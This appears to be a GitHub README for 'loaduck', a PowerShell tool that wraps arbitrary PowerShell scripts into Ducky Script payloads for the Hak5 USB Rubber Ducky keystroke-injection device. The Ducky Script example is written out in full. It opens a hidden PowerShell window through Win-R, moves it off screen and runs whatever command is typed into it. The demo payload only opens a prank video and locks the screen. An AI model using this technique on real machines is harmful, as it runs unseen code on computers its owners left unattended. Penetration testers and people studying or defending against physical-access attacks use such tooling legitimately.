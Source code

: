 # loaduck

PowerShell script bootstrapper for the Hak5 USB Rubber Ducky.

Written in PowerShell.

Targets Windows 7 and Windows 10, YMMV otherwise.

# How

PowerShell files can be dragged on to loaduck.ps1 to generate a .ps1.ducky.txt
file that can be used on the ducky.

Or you can use a command like:

    powershell .\loaduck.ps1 [ps1 filename]

This will generate:

    [ps1 filename].ducky.txt

The wrapper script minimises your source PowerShell into a single line, then
injects it in an (almost) invisible payload that's fired from Win-R.

### Example

For example, given a (really annoying) PowerShell script of:

```powershell
For ($i=0; $i -le 2; $i++) {
    start https://www.youtube.com/watch?v=dQw4w9WgXcQ
}
rundll32.exe user32.dll,LockWorkStation
```

Firstly, that script will be semi-minified to:

```powershell
For($i=0;$i -le 2;$i++){start https://www.youtube.com/watch?v=dQw4w9WgXcQ};rundll32.exe user32.dll,LockWorkStation
```

The the script will be encoded into the following Ducky Script:

```
DELAY 5000
GUI r
DELAY 250
ALT SPACE
STRING M
LEFT
REPEAT 40
ENTER
STRING powershell -w hidden iex '(Add-Type n -pas -m ''[DllImport(\"user32\")]public static extern int ShowWindow(int h,int n);'')::ShowWindow((gps -Id $pid).MainWindowHandle,0);Read-Host|iex'
ENTER
DELAY 1000
STRING For($i=0;$i -le 2;$i++){start https://www.youtube.com/watch?v=dQw4w9WgXcQ};rundll32.exe user32.dll,LockWorkStation
ENTER
```

The long PowerShell script creates the hidden PowerShell window that listens
for keystrokes (our minified annoying script in this case) and then runs them
when it receives and Enter key.
